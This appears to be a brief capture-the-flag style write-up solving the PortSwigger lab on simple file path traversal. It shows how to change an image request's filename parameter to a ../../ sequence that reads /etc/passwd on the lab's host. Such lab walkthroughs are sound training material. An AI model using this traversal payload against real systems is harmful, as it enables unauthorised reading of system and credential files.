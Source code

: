 # Lab: simple case

**Link**: https://portswigger.net/web-security/file-path-traversal/lab-simple

**Solution**:
find the request who get the file (image)

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>


Take the request copy and modify `filename` parameter

https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=6.jpg
to be
[https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=](https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=6.jpg)../../../../../../../../../../../../etc/passwd

<p align="center" width="100%">
  <img src="image2.png" width="500" hight="500"/>
</p>


<p align="center" width="100%">
  <img src="image3.png" width="500" hight="500"/>
</p>
